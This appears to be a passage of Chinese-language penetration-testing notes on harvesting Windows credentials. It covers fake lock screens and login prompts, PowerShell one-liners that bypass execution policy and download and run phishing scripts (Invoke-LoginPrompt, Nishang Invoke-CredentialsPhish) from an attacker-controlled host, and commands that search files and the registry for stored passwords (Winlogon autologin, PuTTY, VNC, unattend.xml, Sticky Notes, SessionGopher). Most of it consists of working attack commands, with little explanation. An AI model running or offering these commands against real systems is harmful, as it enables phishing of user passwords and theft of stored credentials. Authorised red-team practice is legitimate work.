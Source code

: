 #### 伪造锁屏
	https://github.com/Pickfordmatt/SharpLocker/releases
![image](/assets/Pentest_Note/master/img/144.png)

	https://github.com/bitsadmin/fakelogonscreen/releases
![image](/assets/Pentest_Note/master/img/145.png)

	记录的密码保存在
	%LOCALAPPDATA%\Microsoft\user.db
![image](/assets/Pentest_Note/master/img/146.png)
#### 伪造认证框
##### CredsLeaker
	https://github.com/Dviros/CredsLeaker
	将cl_reader.php，config.php，config.cl上传到web服务器
	修改CredsLeaker.ps1、run.bat中URL参数
![image](/assets/Pentest_Note/master/img/147.png)

	输入正确密码后会自动结束，否则除非结束powershell进程才可结束
	获取到正确密码后会在目录下生成creds.txt保存密码信息
![image](/assets/Pentest_Note/master/img/148.png)
##### LoginPrompt
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.107/ps/Invoke-LoginPrompt.ps1');invoke-LoginPrompt"
![image](/assets/Pentest_Note/master/img/149.png)

	除非结束进程，否则只能输对密码才能关闭对话框。
	收到正确密码会返回结果
![image](/assets/Pentest_Note/master/img/150.png)
##### Nishang-Invoke-CredentialsPhish
	>powershell.exe -nop -exec bypass -c "IEX(New-Object net.webclient).DownloadString('http://192.168.0.108/ps/nishang/Gather/Invoke-CredentialsPhish.ps1'); Invoke-CredentialsPhish"
![image](/assets/Pentest_Note/master/img/151.png)
![image](/assets/Pentest_Note/master/img/152.png)
#### 搜索文件
  	>cd C:\ & findstr /SI /M "password" *.xml *.ini *.txt
	>findstr /si password *.xml *.ini *.txt *.config
	>findstr /spin "password" *.*
#### 搜索具有特定文件名的文件
  	>dir /S /B *pass*.txt == *pass*.xml == *pass*.ini == *cred* == *vnc* == *.config*
	>where /R C:\ user.txt
	>where /R C:\ *.ini
#### 在注册表中搜索密钥和密码
	>REG QUERY HKLM /F "password" /t REG_SZ /S /K
	>REG QUERY HKCU /F "password" /t REG_SZ /S /K

	>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" # Windows Autologin
	>reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon" 2>nul | findstr "DefaultUserName DefaultDomainName DefaultPassword" 
	>reg query "HKLM\SYSTEM\Current\ControlSet\Services\SNMP" # SNMP parameters
	>reg query "HKCU\Software\SimonTatham\PuTTY\Sessions" # Putty clear text proxy credentials
	>reg query "HKCU\Software\ORL\WinVNC3\Password" # VNC credentials
	>reg query HKEY_LOCAL_MACHINE\SOFTWARE\RealVNC\WinVNC4 /v password

	>reg query HKLM /f password /t REG_SZ /s
	>reg query HKCU /f password /t REG_SZ /s
#### unattend.xml 中的密码
  	unattend.xml 文件的位置
	C:\unattend.xml
	C:\Windows\Panther\Unattend.xml
	C:\Windows\Panther\Unattend\Unattend.xml
	C:\Windows\system32\sysprep.inf
	C:\Windows\system32\sysprep\sysprep.xml
	显示内容
	>dir /s *sysprep.inf *sysprep.xml *unattended.xml *unattend.xml *unattend.txt 2>nul
	密码是base64编码的
	>echo "base64encodepassword"  | base64 -d 
	也可以使用msf模块来查找
	post/windows/gather/enum_unattend
#### 便签密码
  	便签应用程序将其内容存储在位于的 sqlite 数据库中C:\Users\<user>\AppData\Local\Packages\Microsoft.MicrosoftStickyNotes_8wekyb3d8bbwe\LocalState\plum.sqlite
#### 应用中的密码
  	使用 SessionGopher获取 PuTTY、WinSCP、FileZilla、SuperPuTTY 和 RDP 密码
	https://github.com/Arvanaghi/SessionGopher
	https://raw.githubusercontent.com/Arvanaghi/SessionGopher/master/SessionGopher.ps1
	Import-Module path\to\SessionGopher.ps1;
	Invoke-SessionGopher -AllDomain -o
	Invoke-SessionGopher -AllDomain -u domain.com\adm-arvanaghi -p s3cr3tP@ss
#### HASH操作模块
  	其他信息详见HASH操作模块